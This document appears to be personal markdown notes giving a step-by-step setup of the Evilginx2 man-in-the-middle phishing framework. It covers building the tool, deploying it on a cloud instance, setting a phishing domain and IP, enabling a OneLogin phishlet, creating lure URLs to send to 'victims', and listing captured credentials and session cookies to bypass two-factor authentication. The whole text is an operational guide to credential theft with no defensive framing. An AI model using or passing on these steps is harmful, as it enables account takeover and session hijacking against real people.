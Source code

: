 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

Commands: https://en.kali.tools/?p=963

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.


### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

### Configuring EvilGinx2 on Cloud:

Install and config Evilginx2 inside the instance you have created (Open a new tab, ssh back into the EC2, and complete the steps to install Evilginx)

* Since go is already installed we can eneter the following commands to set up Evilginx2:
            
```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```
            
* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```



* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```


***

### Creating Evilginx2 Lure:

The next task is to created a ```lure```, which would be the phishing URL to send the victims to.

```
: lures create therecap
[04:31:37] [inf] created lure with ID:
1

: lures get-url 1
https://www.therecap.tk/BMvzCci()y     (WHAT IS THIS URL?)
```

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login.

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***

### Run Evilginx on the Cloud:

* We need to choose one of the phishlets that we weant to use and configure it in evilginx:
            
```phishlets hostname <pick one, i like onelogin> <enetr whatever dns we just created>```
            
[ex.] ```phishlets hostname onelogin login.raymondspizzeria.cf```
[output] ```[04:57:58] [inf] disabled phishlet 'onelogin'```
            
* Now we need to enable the phishlet 'onelogin' that we just configured:
            
```phishlets enable onelogin```
            
* Next we need to creates out lures:
            
```lures create onelogin```
            
[output] ```created lure with ID: 0```
            
* Next we are going to want to get our actual url for out phish:
            
```lures get-url 0```

* Now open a new wwbbrowser and test out this new link produced by Evilginx and make sure that it works ! ! !

***

### Tokens and Credentials:

```lures``` -  Shows all current actives lures that are available to be used

```sessions``` - Shows active sessions currently runnings 

```sessions <session_# Here>``` - will display all credentials and cookies captured fromt he session you choose 
